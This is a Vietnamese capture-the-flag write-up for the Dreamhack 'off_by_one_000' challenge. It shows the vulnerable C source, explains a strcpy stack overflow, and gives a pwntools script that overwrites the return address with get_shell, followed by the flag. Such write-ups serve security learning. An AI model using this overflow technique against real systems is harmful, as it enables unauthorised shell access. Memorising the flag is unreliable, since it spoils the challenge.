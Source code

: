 **1. Tìm lỗi**

Ta có source như sau:

```
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char cp_name[256];

void get_shell()
{
    system("/bin/sh");
}

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int cpy()
{
    char real_name[256];
    strcpy(real_name, cp_name);
    return 0;
}

int main()
{
    initialize();
    printf("Name: ");
    read(0, cp_name, sizeof(cp_name));

    cpy();

    printf("Name: %s", cp_name);

    return 0;
}

```

Chương trình cho phép nhập vào biến `cp_name` rồi copy qua biến `real_name` bằng hàm `cpy`. Nhưng ở đây không giới hạn số byte nhập vào nên có lỗi `bof`.

**2. Ý tưởng**

Lúc cho nhập biến vào copy qua thì không giới hạn byte nên có lỗi nên nhập tràn biến tính toán từ `real_name` đến `ret` để nhập byte rác vào `cp_name`. Cuối cùng là gán địa chỉ hàm `get_shell` vào.

Dùng lệnh `checksec` kiểm tra:

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Vậy ý tưởng trên thực hiện tốt.

**3. Khai thác**

```
   0x0804865a <+14>:    lea    eax,[ebp-0x100]
   0x08048660 <+20>:    push   eax
   0x08048661 <+21>:    call   0x8048470 <strcpy@plt>
```

Ta thấy biến `real_name` cách ebp 0x100 byte nên sẽ cách `ret` nhập hết địa chỉ hàm `get_shell` cho nhanh

```
from pwn import *

exe = ELF('off_by_one_000', checksec=False)
#r = process(exe.path)
r = remote('host3.dreamhack.games', 12317)

log.info("get shell: " + hex(exe.sym['get_shell']))
payload = p32(exe.sym['get_shell'])*64
r.sendafter(b'Name: ', payload)
r.interactive()
```

**4. Lấy flag**

![flag.png](photo/flag.png)

`Flag: DH{fef043d0dbe030d01756c23b78a660ae}`